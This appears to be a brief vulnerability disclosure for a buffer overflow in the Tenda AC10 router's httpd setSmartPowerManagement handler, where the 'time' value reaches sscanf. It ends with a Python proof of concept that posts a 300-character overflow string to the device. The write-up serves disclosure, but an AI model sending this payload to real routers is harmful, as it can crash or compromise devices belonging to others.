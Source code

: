 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSmartPowerManagement

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](2.png)

get value from time ,then call sscanf, cause buff overflow




## POC
```
url = "http://192.168.1.13/goform/setSmartPowerManagement"
payload = 'A'*300 + ':'+'\n'

r = requests.post(url, data={'time': payload})
``` 
